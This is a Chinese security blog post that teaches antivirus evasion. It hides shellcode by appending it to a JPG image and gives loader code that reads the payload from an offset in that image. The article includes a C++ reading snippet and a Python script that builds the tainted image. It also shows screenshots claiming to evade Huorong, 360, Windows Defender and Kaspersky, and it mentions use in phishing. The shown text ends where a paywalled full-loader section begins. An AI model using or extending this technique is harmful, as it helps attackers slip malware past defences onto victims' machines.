 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkxNjY1MjY3OQ==&mid=2247488461&idx=1&sn=b88287aca61333f93fdcff10e3b8f467

#  【免杀】loader和shellcode分离-图片注入shellcode  
原创 CatalyzeSec  CatalyzeSec   2025-06-19 11:16  
  
![](https://mmbiz.qpic.cn/mmbiz_png/N2vfpRNU8pAITZd4qAicYWBGcjeG2hbn2cXouRp6Ss1Js0yXYyHhhCFL1SOLNMyftpLUSicVlKmdte5B0WrVfzCg/640 "")  
  
前言  
  
此前也出过一些简单的免杀和包装免杀进行钓鱼的技巧，有兴趣的朋友可以翻翻公众号以前的文章，其中关于免杀这部分技术思路被评价是不够透彻（8窍通了7窍），这段时间痛定思痛沉淀了一番，话不多说先看效果，基本原理和成果代码也贴在后头，付费则是为了保护成果  
和赚包烟钱  
，本篇包括后续的付费文章也会在星球同步更新，星球成员可以直接观看。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/N2vfpRNU8pAITZd4qAicYWBGcjeG2hbn2cXouRp6Ss1Js0yXYyHhhCFL1SOLNMyftpLUSicVlKmdte5B0WrVfzCg/640 "")  
  
免杀效果  
  
经过测试可以过火绒  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgtZjicUoZeYTMcNGUYUSz2N5HSc7ib9RR0icoqnicgukw6viaq9FJL5JZIVQ/640?wx_fmt=png&from=appmsg "")  
  
添加签名后可以过36  
0  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgSVOvg3sOZxqoQypkp5sPvT6z48146ATeX64ia7zjib1dgRO8llpDTOJg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgib4tLbOow9ATEjRnqo92QrZrWyRzVTtUpsDGjD4lZibG6jVEiaCJbVv0A/640?wx_fmt=png&from=appmsg "")  
  
过windows defender  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgP2CdMIXh21EqEibVwoDf62Nfs7jYvczl45y0tuPhnL2z7ozD3aAWib0g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgAE8ictzhgnZaNTeDib3nxOJE5OtbHC97ePTa4zm6Ps7ssqV6Ge7rvs0A/640?wx_fmt=png&from=appmsg "")  
  
过卡巴斯基  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgzosZKwgQxutxnKztPbrmCgtEP4GdibgUhxXGXmwj8gyXX3SvKibcfAicw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOg9LXSYcoXmltxT1UWFjYdfHm2pA2S0bdKlCmlGBD7UcLzFkren3Ic9A/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/N2vfpRNU8pAITZd4qAicYWBGcjeG2hbn2cXouRp6Ss1Js0yXYyHhhCFL1SOLNMyftpLUSicVlKmdte5B0WrVfzCg/640 "")  
  
基本原理  
  
shellcode和loader分离的模式基本上是可以绕过大部分静态检测的机制，但是一个exe文件和一个二进制文件在一起的话会显得非常的突兀。  
  
这里通过将shellcode添加到图片文件中，让loader读取指定偏移后的shellcode就可以达到读取图片文件上线的效果。  
  
读取图片文件中的shellcode代码：  

```
char filename[] = &#34;xxx.jpg&#34;; // filename
int offset = 10086; // image file offset


ifstream infile;
infile.open(filename, ios::out | ios::binary);
infile.seekg(0, infile.end);
int length = infile.tellg();
infile.seekg(offset, infile.beg);


int shellcode_size = length - offset;
char* data = new char[shellcode_size];
infile.read(data, length);
```

  
下面的python代码实现获取读取图片文件的字节数来得到offset偏移量，同时实现cmd的copy拼接功能（图片文件和shellcode文件要和python文件在同一个文件夹下）  

```
# usage: python countByte.py file1 file2
# 获取file1的字节数
# 实现功能 -> copy file1 /b + file2 /b out_res.jpg
import os
import sys


def get_file_size(file_path):
    try:
        # 获取文件大小（字节数）
        size = os.path.getsize(file_path)
        print(f&#34;文件 '{file_path}' 的大小为 {size} 字节&#34;)
        return size
    except:
        pass


if __name__ == &#34;__main__&#34;:
    if len(sys.argv) < 3:
        print(&#34;用法：python script.py <文件路径1> <文件路径1>&#34;)
    else:
        file_path = sys.argv[1]
        file_path2 = sys.argv[2]
        get_file_size(file_path)


        os.system(&#34;copy &#34;+ file_path +&#34; /b + &#34; + file_path2 + &#34; /b out_res.jpg&#34;)
```

  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgYUUughwBO1R6R5yMgJF9pTuvSpkAEqn6hA6DDWgIhE5icOzdcXPfUzg/640?wx_fmt=other&from=appmsg "")  
  
因为图片文件没有受到损坏，shellcode是添加在图片最后，图片文件仍然可以打开  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgHxQR8tP9rgxSiahmpCWYSwdjC4ajqiaicuYZg6PjVTviaEEwxib9BsJWlfw/640?wx_fmt=png&from=appmsg "")  
  
图片文件和loader在同一个文件夹下，双击exe即可上线  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykb5q4te9icSAZlTvCCOxpOgSibictmPCfGQSPOIpia3m7vfkX7UHMxJVeKr7IiclC9GNia93JzmnH6IFyQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/N2vfpRNU8pAITZd4qAicYWBGcjeG2hbn2cXouRp6Ss1Js0yXYyHhhCFL1SOLNMyftpLUSicVlKmdte5B0WrVfzCg/640 "")  
  
完整loader代码及操作流程  
  
